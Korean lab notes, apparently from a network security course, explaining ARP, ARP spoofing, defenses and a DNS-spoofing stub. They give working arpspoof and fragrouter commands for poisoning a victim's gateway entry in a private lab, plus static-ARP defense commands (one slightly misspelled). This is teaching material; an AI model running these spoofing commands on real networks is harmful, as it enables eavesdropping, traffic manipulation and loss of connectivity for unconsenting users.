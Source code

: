 
## ARP(Address Resolution Protocol)

![1559708669966](C:\Users\student\AppData\Roaming\Typora\typora-user-images\1559708669966.png)

- 내부 네트워크의 목적지 mac 주소를 모르는 상태에서 mac주소를 알아야할 때 보내는 것을 ARP Request라고함 ARP broadcasting

  ![1559708808449](C:\Users\student\AppData\Roaming\Typora\typora-user-images\1559708808449.png)

- ARP Request를 받은 목적지 컴퓨터가 ARP Request를 보낸 사용자에게 mac주소를 보내 주는 것



## ARP 스푸핑 하는 방법

- kali2 에서 window xp에게(kali2의 터미널창에 아래 명령)

- #arpspoof  -i  eth0  -t  <VICTIM_IP(WINXP)>  <GATEWAY_IP>
  - ⇒ # arpspoof  -i  eth0  -t  192.168.111.131  192.168.111.2
  - 이것은 131주소 ip를 가진 컴퓨터의 gateway mac주소를 자신의 것으로 알도록 계속해서 메세지를 보내는 것

- window xp 에서 인터넷이 되지 않고
- window xp의 gateway mac주소가 kali2의 맥주소와 동일하게 변경되고

![1559710858564](C:\Users\student\AppData\Roaming\Typora\typora-user-images\1559710858564.png)

- 인터넷 또한 되지 않음

- 여기서 kali2에
  - fragrouter -B1 명령을 입력하면 받아온 요청을 다시 gateway로 돌려주므로 인터넷이 가능해짐



## ARP 스푸핑 방어

- ARP cache table에 Gateway MAC 주소를 정적으로 설정

  - 메세지를 받아도 바뀌지 않도록 하는 것

  - window에서 방법

    1. arp  -s  <GATEWAY_IP>  <GATEWAY_MAC>

    2. netsh interface ip delete negihbors "NETWORK_CARD_NAME"  "GATEWAY_IP"

       -> netst interface ip add neighbors "NETWORK_CARD_NAME" "GATEWAY_IP" "GATEWAY_MAC"



## MTM(Man in The Middle) attack

- 두 호스트 간에 통신을 하고 있을 때, 중간자가 사이에 끼어들어 통신 내용을 도청, 조작하는 공격



## DNS Spoofing 

- \### etter.dns 파일을 수정
  - root@kali:~# gedit /etc/ettercap/etter.dns
